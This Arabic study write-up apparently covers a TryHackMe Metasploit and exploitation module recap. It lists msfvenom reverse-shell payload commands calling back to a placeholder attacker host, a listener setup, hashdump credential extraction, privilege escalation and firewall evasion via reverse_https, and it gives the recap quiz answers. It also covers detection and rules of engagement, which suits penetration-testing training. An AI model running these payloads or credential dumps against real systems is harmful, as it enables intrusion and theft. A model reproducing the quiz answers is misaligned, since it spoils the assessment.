

# توثيق مراجعة وانتقال مديول ميتاسبلويت والاستغلال (Topic Transition Recap: Metasploit and Exploitation)

---

## 1. بيانات المديول والروم (Metadata & Overview)

* **المسار التعليمي:** مسار مبتدئ اختبار الاختراق (Jr Penetration Tester)
* **المديول:** المديول الثاني عشر — ميتاسبلويت والاستغلال (12-METASPLOIT-AND-EXPLOITATION)
* **اسم الغرفة / التقييم:** مراجعة الانتقال للموضوع (Topic Transition Recap)
* **المعرف البرمجي (Recap ID):** `6afe01d5f306fc3f6592803f`
* **الرابط المباشر:** [TryHackMe Module 12 Recap](https://tryhackme.com/recap/6afe01d5f306fc3f6592803f)
* **النوع:** تقييم ختامي وتركيب منهجي (Module Synthesis & Assessment)
* **الحالة:** مكتمل بنسبة 100% (6/6 أسئلة تم حلها وتدقيقها بدقة)
* **النقاط المحققة:** 48 / 48 نقطة كاملة (8 نقاط لكل سؤال)

---

## 2. الملخص التنفيذي للمديول الثاني عشر (Module 12 Executive Summary)

يُمثل **المديول الثاني عشر (Metasploit and Exploitation)** الركيزة التقنية الكبرى في مسار اختبار الاختراق؛ حيث ينقل الدارس من مرحلة الاستطلاع واكتشاف الثغرات السلبية إلى مرحلة الهجوم العملي والتفاعل التكتيكي مع الأنظمة المستهدفة والسيطرة الكاملة عليها.

خلال الغرف الثماني للمديول، تم بناء وتوثيق منظومة هجومية متكاملة شملت:
1. **أساسيات ميتاسبلويت (Metasploit: The Basics):** فهم معمارية الإطار (Exploits, Payloads, Auxiliary, Post, Encoders, NOPs)، وإدارة المتغيرات العامة والمحلية (`set` / `setg`)، وفصل الحمولات المفردة (Singles) عن المرحلية (Staged)، والتحكم بالجلسات (`sessions`).
2. **الفحص والاستغلال الواقعي (Scanning & Exploitation):** استغلال قاعدة بيانات PostgreSQL عبر `db_nmap` وعزل البيانات في مساحات عمل (`workspace`)، والتحقق الآمن من ثغرة **MS17-010 (EternalBlue)** واختراق نظام ويندوز للحصول على صلاحيات `SYSTEM`، واستغلال الباب الخلفي الشهير في **vsftpd 2.3.4** للحصول على صلاحيات `root`.
3. **مرحلة ما بعد الاستغلال (Post-Exploitation):** استعراض بنية حمولة Meterpreter وحقن الذاكرة (Reflective DLL Injection)، وتصعيد الصلاحيات التلقائي عبر محاكاة الأنابيب المسماة (`getsystem` Technique 1)، واستخراج تجزئات NTLM من قاعدة SAM عبر `hashdump`، وفحص الذاكرة عبر إضافة Kiwi (Mimikatz)، واستخراج أسرار خوادم IIS.
4. **توليد الحمولات المستقلة (Payload Generation):** استخدام أداة `msfvenom` لتوليد حمولات تنفيذية وكشف حقيقة المشفرات (`x86/shikata_ga_nai`)، وتجاوز قيود الخروج بتوجيه الحمولات لمنفذ الويب 443، وتأكيد موثوقية الحمولات غير المرحلية (`_`).
5. **الاستغلال وتطويع الهجمات (Exploitation & Weaponisation):** تبني عقلية المستشار الأمني في إثبات الأثر الحقيقي (Business Impact)، وتطبيق مبادئ الاستغلال المنضبط بأدنى إثبات تحكم (`whoami`, `SELECT SYSTEM_USER`, `getuid`)، وبناء سلاسل الهجوم (Vulnerability Chaining)، وتحديد نقطة التوقف الأخلاقية (Stopping Point).
6. **أساسيات القذائف والمستمعات (Shells & Listeners Fundamentals):** التفريق الهندسي بين القذائف العكسية والملزمة (Reverse vs Bind)، وميكانيكا محرك الـ termios وتثبيت الطرفيات عبر بايثون PTY و `stty raw -echo`، وتأمين الاتصالات بتشفير OpenSSL عبر Socat.
7. **توليد وتسليم حمولات القذائف (Shell Generation & Delivery):** استغلال المكونات الأصلية للنظام (Named Pipes في Netcat، وفئة `System.Net.Sockets.TCPClient` في باورشيل، و `/dev/tcp` في باش)، وزرع قذائف الويب (Webshells) واستخدام طلبات POST لتفادي التسجيل في الـ access logs، وتثبيت الوصول الإداري عبر RDP.
8. **المراجعة والتقييم الختامي (Topic Transition Recap):** اجتياز التقييم الختامي والحصول على 48/48 نقطة كاملة.

---

## 3. مخطط دورة حياة الاستغلال وميتاسبلويت الشاملة (Architectural Flowchart)



---

## 4. المتطلبات وإعداد البيئة (Prerequisites & Environment Setup)

* **النظام الأساسي:** توزيعة كالي لينكس (Kali Linux) محدثة بالكامل.
* **الأدوات البرمجية:** إطار ميتاسبلويت v6+، وأداة `msfvenom`، وأداة `netcat`، وأداة `socat`، ومكتبة `openssl`، وأداة `rlwrap`، وقاعدة بيانات PostgreSQL.

```bash
# تهيئة قاعدة بيانات ميتاسبلويت
sudo msfdb init
sudo msfdb status

# الدخول إلى وحدة التحكم
msfconsole -q
```

---

## 5. الفروق الهندسية وميكانيكا العمل (Core Concepts & Technical Deep Dive)

### أ. معمارية الحمولات: المرحلية (Staged) مقابل غير المرحلية (Stageless)
* **الحمولات المرحلية (`/`):** تُقسّم إلى مرحلتين؛ مرحلة Stager صغيرة جداً بحجم ~7 كيلوبايت تُحقن في الذاكرة لتؤسس مقبس الاتصال، ومرحلة رئيسية بحجم ~1 ميجابايت يتم تنزيلها لاحقاً عبر الشبكة. عيبها القاتل في الهجمات المستقلة هو حساسية التنزيل لفحص الحزم العميق (DPI) للجدران النارية.
* **الحمولات غير المرحلية (`_`):** تحتوي على الكود الكامل مدمجاً في ملف تنفيذي واحد بحجم ~250 كيلوبايت. تنفذ وتتصل مباشرة دون الحاجة لتنزيل أي كود عبر الشبكة، مما يجعلها الخيار الأكثر موثوقية في الهجمات المستقلة.

### ب. وهم التخفي بالمشفرات وفلترة الحروف السيئة (`-b`)
* المشفرات (مثل `x86/shikata_ga_nai`) لم تُصمم لتجاوز مضادات الفيروسات والـ EDR الحديثة، بل صُممت لإزالة الحروف السيئة (`-b '\x00\x0a\x0d'`) التي تُنهي السلاسل النصية وتُفسد استغلال ثغرات طفحان الذاكرة (Buffer Overflows).
* ترصد أنظمة الحماية الحديثة حلقة فك التشفير الثابتة (Decoder Stub)، وتحلل الذاكرة أثناء التنفيذ عبر AMSI، وترصد تخصيص ذاكرة القراءة والكتابة والتنفيذ (RWX).

### ج. توجيه الاتصالات وتخطي جدران الحماية (`reverse_https`)
* عند وجود جدار ناري يقيد حركة المرور الخارجية عبر منافذ الويب فقط، يفشل اتصال `reverse_tcp` الخام حتى لو تم توجيهه للمنفذ 443 لأن الجدار الناري يكتشف غياب مصافحة TLS المعيارية.
* استخدام حمولة `reverse_https` يغلف كافة حركة المرور داخل نفق TLS حقيقي، مما يجعل حركة مرور الـ C2 تبدو كحركة تصفح ويب طبيعية ومشروعة.

---

## 6. مرجع أوامر وتقنيات المديول الشامل (Master Commands Reference)

| الأداة / السياق | الأمر النموذجي | الوصف التقني والوظيفة |
| :--- | :--- | :--- |
| **MSF Database** | `db_nmap -sV -sC -O <IP>` | إجراء فحص Nmap وحفظ نتائجه تلقائياً في قاعدة PostgreSQL |
| **MSF Workspaces** | `workspace -a <name>` | إنشاء مساحة عمل جديدة لعزل بيانات تقييم الشبكة |
| **MSF Target Loading**| `hosts -R` | تعبئة عناوين الأهداف المكتشفة تلقائياً في متغير `RHOSTS` |
| **msfvenom Linux** | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f elf -o s.elf` | توليد ملف تنفيذي لينكس غير مرحلي |
| **msfvenom Windows** | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=443 -f exe -o s.exe` | توليد ملف تنفيذي ويندوز غير مرحلي عبر المنفذ 443 |
| **msfvenom Bad Chars**| `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 -b '\x00\x0a\x0d' -f raw` | استبعاد الحروف السيئة مع اختيار المشفر المناسب تلقائياً |
| **MSF Listener** | `use multi/handler`<br>`set PAYLOAD <payload>`<br>`set LHOST <IP>`<br>`exploit -j` | تشغيل المستمع العام كـ Background Job في الخلفية عبر علم `-j` |
| **Meterpreter System**| `getsystem` | تصعيد الصلاحيات التلقائي عبر محاكاة الأنابيب المسماة (Technique 1) |
| **Meterpreter Hashes**| `hashdump` | استخراج تجزئات NTLM للمستخدمين المحليين من قاعدة SAM |
| **Meterpreter Sysinfo**| `sysinfo` | استعراض بيانات الجهاز ونظام التشغيل والمعمارية |
| **Linux TTY Fix** | `python3 -c 'import pty; pty.spawn("/bin/bash")'` | إنشاء طرفية وهمية واستدعاء دالة `forkpty()` لتثبيت الجلسة |
| **Terminal Raw** | `stty raw -echo` ثم `fg` | ضبط الطرفية المحلية في الوضع الخام لتمرير الإشارات مثل Ctrl+C |
| **Socat Encrypted** | `socat OPENSSL-LISTEN:443,cert=s.pem,verify=0 -` | تشغيل مستمع مشفر بـ OpenSSL مع تعطيل التحقق من الشهادة |

---

## 7. سيناريو التقييم النهائي: تحليل أسئلة الانتقال (Transition Questions Analysis)

تم اجتياز التقييم الختامي للمديول الثاني عشر بنسبة 100% وتحقيق 48 / 48 نقطة كاملة:

| رقم السؤال | موضوع السؤال | الإجابة المعتمدة | التفسير والأساس العلمي |
| :---: | :--- | :---: | :--- |
| **Q1** | حجم الحمولات غير المرحلية مقارنة بالمرحلية | `True` | الحمولات غير المرحلية أكبر حجماً لأنها تدمج الكود كاملاً في ملف واحد (~250KB مقابل ~7KB). |
| **Q2** | علم تحديد صيغة الإخراج في msfvenom | `-f` | يحدد صيغة الملف النهائي سواء كانت صيغة تنفيذية (`exe`, `elf`) أو تحويلية (`raw`, `c`). |
| **Q3** | نوع الاتصال عند حجب كل شيء ما عدا HTTPS | `reverse_https` | يُغلف حركة المرور داخل نفق TLS حقيقي لتبدو كحركة تصفح ويب طبيعية. |
| **Q4** | علم تحديد الحروف السيئة المحظورة | `-b` | يستقبل قيم الـ Hex المحظورة (`\x00`) ويوجه الأداة لاختيار مشفر يزيلها من الكود. |
| **Q5** | دلالة متغير LHOST في الحمولات العكسية | `True` | يُمثل عنوان جهاز المهاجم الذي يتصل به الهدف للرجوع إلى موطنه. |
| **Q6** | علم تشغيل المستمع في الخلفية | `-j` | يُشغل وحدة `multi/handler` كـ Background Job لتفريغ وحدة تحكم ميتاسبلويت. |

---

## 8. فهرس غرف المديول والمهام (Complete Module 12 Rooms Index)

| رقم الغرفة | اسم الغرفة | المعرف البرمجي (Slug) | عدد المهام | عدد الأسئلة | نسبة الإنجاز والتوثيق |
| :---: | :--- | :--- | :---: | :---: | :---: |
| 01 | Metasploit: The Basics | `metasploitthebasics` | 6 | 17 | 100% مكتمل وموثق |
| 02 | Metasploit: Scanning and Exploitation | `metasploitscanningandexploitation` | 7 | 15 | 100% مكتمل وموثق |
| 03 | Metasploit: Post-Exploitation | `metasploitpostexploitation` | 6 | 15 | 100% مكتمل وموثق |
| 04 | Metasploit: Payload Generation | `metasploitpayloadgeneration` | 8 | 15 | 100% مكتمل وموثق |
| 05 | Exploitation and Weaponisation | `exploitationandweaponisation` | 8 | 15 | 100% مكتمل وموثق |
| 06 | Shells & Listeners Fundamentals | `shellsfundamentals` | 9 | 17 | 100% مكتمل وموثق |
| 07 | Shell Payload Generation & Delivery | `shellgenerationdelivery` | 8 | 17 | 100% مكتمل وموثق |
| 08 | Topic Transition Recap | `6afe01d5f306fc3f6592803f` | 6 أسئلة | 6 | 100% مكتمل وموثق (48/48 نقطة) |
| **الإجمالي** | **8 غرف تقييم وتحدي** | **كامل مديول الاستغلال** | **58 مهمة** | **117 سؤالاً** | **100% مكتمل ومطابق للحساب الحي** |

---

## 9. تحليل أمني ومفاهيم الدفاع والرصد (Defense, Detection & Blue Team)

1. **كشف استغلال ميتاسبلويت وحمولات Meterpreter في الذاكرة:**
   - استخدام برمجيات EDR المتقدمة القادرة على فحص الذاكرة النشطة (Memory Scanning) لرصد توقيعات مكتبات الـ Reflective DLLs غير المرتبطة بملفات على القرص الصلب.
   - تفعيل تقنية **Windows Defender Credential Guard** لعزل خدمة LSASS داخل بيئة افتراضية محمية بالأجهزة لمنع استخراج التجزئات عبر Kiwi/Mimikatz.
2. **رصد الاتصالات المشبوهة وقذائف الويب:**
   - تفعيل ميزة فحص الـ SSL/TLS على بوابات العبور الشبكية لرصد جلسات الـ C2 المشفرة عبر المنفذ 443.
   - مراقبة سجلات الـ Web Servers ومنع تنفيذ الأوامر داخل مجلدات الـ Uploads، ومراقبة العمليات المشبوهة الصادرة عن خوادم الويب (`w3wp.exe` تطلق `cmd.exe` أو `powershell.exe`).

---

## 10. مصفوفة MITRE ATT&CK الشاملة للمديول الثاني عشر

| مرحلة الهجوم | المعرف التقني | اسم التقنية | التطبيق العملي في المديول |
| :--- | :--- | :--- | :--- |
| **Initial Access** | T1190 | Exploit Public-Facing Application | استغلال MS17-010 و vsftpd 2.3.4 |
| **Execution** | T1059 | Command and Scripting Interpreter | تنفيذ الأوامر عبر Bash و PowerShell وقذائف الويب |
| **Defense Evasion** | T1055 | Process Injection: Reflective DLL Injection | معمارية حمولة Meterpreter في الذاكرة |
| **Privilege Escalation**| T1134 | Access Token Manipulation: Named Pipe Impersonation| تصعيد الصلاحيات التلقائي عبر أمر `getsystem` |
| **Credential Access** | T1003.002| OS Credential Dumping: SAM Database | استخراج تجزئات كلمات مرور ويندوز عبر `hashdump` |
| **Discovery** | T1082 | System Information Discovery | استعراض بيانات النظام والعمليات عبر `sysinfo` و `ps` |
| **Command and Control**| T1071.001| Application Layer Protocol: Web Protocols | توجيه القذائف العكسية عبر منافذ 80 و 443 |
| **Persistence** | T1136.001| Create Account: Local Account | إنشاء حسابات مستخدمين إدارية عبر أوامر الويب شيل |

---

## 11. الأخطاء الشائعة وحلولها عبر المديول (Master Troubleshooting)

* **المشكلة:** فشل جلسة Meterpreter وتجمد المستمع عند محاولة الاتصال العكسي.
  * *السبب الجذري:* عدم تطابق نوع الحمولة بين توليد `msfvenom` وضبط `multi/handler` (مثل استخدام حمولة مرحلية في طرف وغير مرحلية في الطرف الآخر).
  * *الحل:* التأكد من التطابق الحرفي الكامل للاسم والمعمارية والمنفذ.
* **المشكلة:** انهيار طرفية Netcat فور الضغط على `Ctrl+C`.
  * *السبب الجذري:* القذيفة خام ولم يتم تثبيتها؛ إشارة المقاطعة تذهب للطرفية المحلية وليس للهدف.
  * *الحل:* تثبيت الطرفية عبر بايثون PTY ثم `stty raw -echo` ثم `fg`.
* **المشكلة:** حجب القذيفة العكسية عبر المنفذ 4444 من قِبل الجدار الناري.
  * *السبب الجذري:* قواعد حجب المنافذ الخارجية غير المعيارية.
  * *الحل:* توجيه الحمولة لمنفذ 443 واستخدام حمولة `reverse_https`.

---

## 12. المقارنات التقنية والتكتيكية الشاملة (Master Technical Comparisons)

| وجه المقارنة | حمولات Netcat / Raw Shells | حمولات Meterpreter المتقدمة |
| :--- | :--- | :--- |
| **طبيعة التنفيذ** | استدعاء ملفات تنفيذية للطرفية على القرص | حقن كلي في الذاكرة (Reflective DLL Injection) |
| **القابلية للتوسع** | محدودة بأوامر نظام التشغيل المتاحة | قابلة لتحميل إضافات برمجية ديناميكية (`kiwi`, `priv`) |
| **البروتوكول** | تدفق نصوص خام صريحة أو مشفرة بـ Socat | بروتوكول TLV قوي ومحمي بنفق تشفير مستقل |
| **استهلاك الموارد** | ضئيل جداً وسهل النقل | أكبر حجماً ويتطلب بنية تحتية متوافقة للإطار |

---

## 13. أفضل الممارسات وقواعد الاشتباك (Best Practices & Rules of Engagement)

1. **التحقق الآمن قبل إطلاق ثغرات النواة:** تشغيل وحدات الفحص المساعد (`auxiliary/scanner/`) لتأكيد وجود الثغرات الحساسة (مثل EternalBlue) قبل إطلاق الاستغلال لتجنب انهيار خوادم العميل وشاشة الموت الزرقاء.
2. **التنظيف الكامل للآثار (Full Cleanup):** إزالة كافة قذائف الويب، والملفات التنفيذية المرفوعة، وحسابات المستخدمين المستحدثة فور انتهاء الاختبار وتوثيق ذلك بدقة.
3. **التوثيق الدقيق لنقطة التوقف (Stopping Point):** التوقف فور إثبات أعلى درجات الصلاحية (`SYSTEM` أو `sa`) وتجنب التدمير أو استخراج كامل قواعد البيانات لحماية بيانات العميل القانونية.

---

## 14. الانتقال إلى المديول الثالث عشر والمصادر الرسمية (Next Module & References)

مع إتمام المديول الثاني عشر بنجاح ساحق (100% لجميع الغرف والمهام والتقييم)، ينتقل المسار التعليمي مباشرة إلى **المديول الثالث عشر: تصعيد الصلاحيات (13-PRIVILEGE-ESCALATION)**؛ حيث يتم التركيز المعمق على تقنيات استغلال ثغرات وتكوينات أنظمة لينكس وويندوز للارتقاء من مستخدم منخفض الصلاحيات إلى السيطرة الكاملة على النظام (Root / Administrator).

### الروابط والمصادر الرسمية:
* [TryHackMe Module 12 Topic Transition Recap](https://tryhackme.com/recap/6afe01d5f306fc3f6592803f)
* [Rapid7 Metasploit Official Documentation](https://docs.metasploit.com/)
* [Penetration Testing Execution Standard (PTES)](http://www.pentest-standard.org/)
* [MITRE ATT&CK Matrix for Enterprise](https://attack.mitre.org/)
* [ملف تحليل أسئلة التقييم (RECAP-QUESTIONS.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/08-TOPIC-TRANSITION-RECAP/RECAP-QUESTIONS.md)
* [نظرة عامة على المديول الثاني عشر (MODULE-OVERVIEW.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/MODULE-OVERVIEW.md)
